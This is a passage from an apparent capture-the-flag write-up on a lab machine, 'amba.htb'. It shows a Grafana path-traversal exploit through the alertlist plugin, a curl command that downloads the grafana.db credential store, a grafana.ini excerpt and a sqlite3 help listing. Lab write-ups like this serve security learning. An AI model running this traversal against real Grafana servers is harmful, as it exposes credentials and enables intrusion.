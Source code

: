 ```
Using Metasploit:
![media2](/ambassador/static_4.png)
![media2](/ambassador/static_5.png)
![media2](/ambassador/static_6.png)

After successfully exploited the vulnerability, got the /etc/grafana/grafana.ini config, where we find the Grafana database credentials and its location:

```python
# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = sqlite3
;host = 127.0.0.1:3306
;name = grafana
;user = root

...

#################################### Paths ##########################
[paths]
# Path to where grafana can store temp files, sessions, and the sqlite3 db (if that is used)
;data = /var/lib/grafana
```

Knowing the name of the database and having access to it through the alertlist plugin dump it via curl:

```
> curl --path-as-is http://amba.htb:3000/public/plugins/alertlist/../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

```sql
> sqlite3 grafana.db
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> .help
.archive ...            Manage SQL archives
.auth ON|OFF            Show authorizer callbacks
.backup ?DB? FILE       Backup DB (default "main") to FILE
.bail on|off            Stop after hitting an error. Default OFF
.binary on|off          Turn binary output on or off. Default OFF
.cd DIRECTORY           Change the working directory to DIRECTORY
.changes on|off         Show number of rows changed by SQL
.check GLOB             Fail if output since .testcase does not match
.clone NEWDB            Clone data into NEWDB from the existing database
.connection [close] [#] Open or close an auxiliary database connection
.databases              List names and files of attached databases
.dbconfig ?op? ?val?    List or change sqlite3_db_config() options
.dbinfo ?DB?            Show status information about the database
.dump ?OBJECTS?         Render database content as SQL
.echo on|off            Turn command echo on or off
.eqp on|off|full|...    Enable or disable automatic EXPLAIN QUERY PLAN
.excel                  Display the output of next command in spreadsheet
.exit ?CODE?            Exit this program with return-code CODE
.expert                 EXPERIMENTAL. Suggest indexes for queries
.explain ?on|off|auto?  Change the EXPLAIN formatting mode. Default: auto
.filectrl CMD ...       Run various sqlite3_file_control() operations
.fullschema ?--indent?  Show schema and the content of sqlite_stat tables
.headers on|off         Turn display of headers on or off
.help ?-all? ?PATTERN?  Show help text for PATTERN
.import FILE TABLE      Import data from FILE into TABLE
.imposter INDEX TABLE   Create imposter table TABLE on index INDEX
.indexes ?TABLE?        Show names of indexes
.limit ?LIMIT? ?VAL?    Display or change the value of an SQLITE_LIMIT
.lint OPTIONS           Report potential schema issues.
```